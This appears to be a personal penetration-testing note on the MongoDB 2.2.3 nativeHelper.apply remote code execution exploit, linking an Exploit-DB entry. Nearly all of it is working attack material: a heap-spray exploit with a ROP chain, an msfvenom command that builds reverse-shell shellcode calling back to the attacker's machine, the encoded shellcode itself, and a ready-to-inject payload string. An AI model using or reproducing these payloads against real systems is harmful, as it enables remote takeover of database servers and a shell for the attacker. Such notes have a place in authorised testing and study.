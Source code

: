 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### # MongoDB 2.2.3 - nativeHelper.apply Remote Code Execution

[https://www.exploit-db.com/exploits/24947](https://www.exploit-db.com/exploits/24947)

Original:
```
shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);
```

```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f js_le
```

%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd

![[rlwrap]]

```
';shellcode=unescape("%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
